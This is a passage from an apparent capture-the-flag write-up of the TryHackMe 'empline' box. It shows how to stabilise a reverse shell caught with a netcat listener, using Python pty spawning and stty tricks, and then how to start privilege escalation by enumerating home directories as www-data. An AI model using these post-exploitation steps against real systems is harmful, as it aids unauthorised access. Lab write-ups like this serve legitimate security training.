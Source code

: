 Stabilize our shell, so that we will not get kicked out by pressing `ctrl + c` and also to get autocompletion and other fancy features.

````commandline
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@empline:/$ export TERM=xterm-256color
export TERM=xterm-256color
www-data@empline:/$ ^Z
[1]+  Stopped                 nc -nlvp 4444
┌──(itchy㉿scratchy)-[~/Documents/THM/empline]
└─$ stty raw -echo; fg
nc -nlvp 4444

www-data@empline:/$ 
Display all 1414 possibilities? (y or n)
www-data@empline:/$ whoami
www-data
www-data@empline:/$ pwd
/
www-data@empline:/$
````

Now that the shell is stable, we need to adjust the `tty` size of the terminal. As otherwise, using for example `vim`, `nano` or anything like that we will be in troubles. Like I'm using `tmux`, I first open a new window `<prefix> + c`, and get the `tty` info from there.

````commandline
$ stty -a
speed 38400 baud; rows 76; columns 317; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
````

Then I take the rows and columns information and set it in that other window where my remote connection is running.

````commandline
www-data@empline:/$ stty rows 76 columns 317
````

Hopla, we are ready to go...

## Horizontal privilege escalation

Looking out for usable files and a way to escalate. But at this stage could not get anything useful at all.

````commandline
www-data@empline:/$ ls -lah /home/
total 16K
drwxr-xr-x  4 root   root   4.0K Jul 20 19:48 .
drwxr-xr-x 24 root   root   4.0K Sep 19 12:31 ..
drwxrwx---  2 george george 4.0K Jul 20 19:48 george
drwxr-xr-x  3 ubuntu ubuntu 4.0K Jul 20 19:45 ubuntu
www-data@empline:/$ ls -lah /home/ubuntu/     
total 24K
drwxr-xr-x 3 ubuntu ubuntu 4.0K Jul 20 19:45 .
drwxr-xr-x 4 root   root   4.0K Jul 20 19:48 ..
-rw-r--r-- 1 ubuntu ubuntu  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Apr  4  2018 .bashrc
-rw-r--r-- 1 ubuntu ubuntu  807 Apr  4  2018 .profile
````